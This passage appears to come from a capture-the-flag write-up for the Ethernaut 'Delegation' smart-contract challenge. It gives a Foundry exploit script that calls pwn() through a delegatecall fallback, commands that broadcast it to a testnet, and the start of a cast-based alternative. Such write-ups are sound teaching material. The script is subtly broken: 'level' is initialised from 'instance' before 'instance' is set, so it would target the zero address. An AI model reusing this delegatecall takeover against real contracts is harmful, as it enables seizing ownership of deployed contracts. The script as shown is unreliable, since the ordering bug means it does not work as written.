 <br>

```shell
> forge test --match-contract DelegationTest -vvvv    
```



<br>

* submit with `script/06/Delegation.s.sol`:

<br>

```solidity
contract Exploit is Script {

        Delegation level = Delegation(instance);   
        address instance = vm.envAddress("INSTANCE_LEVEL6");
        uint256 hacker = vm.envUint("PRIVATE_KEY");   
        address deployer = vm.rememberKey(hacker);  
        
        function run() external {

            vm.startBroadcast(deployer);
            (bool success, ) = address(level).call(
                abi.encodeWithSignature("pwn()")
            );
            require(success);
            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/06/Delegation.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>


---

### alternative solution using `cast`

<br>

* get `methodId` for `pwn()`:

<br>

```shell
> cast calldata 'pwn()'
```

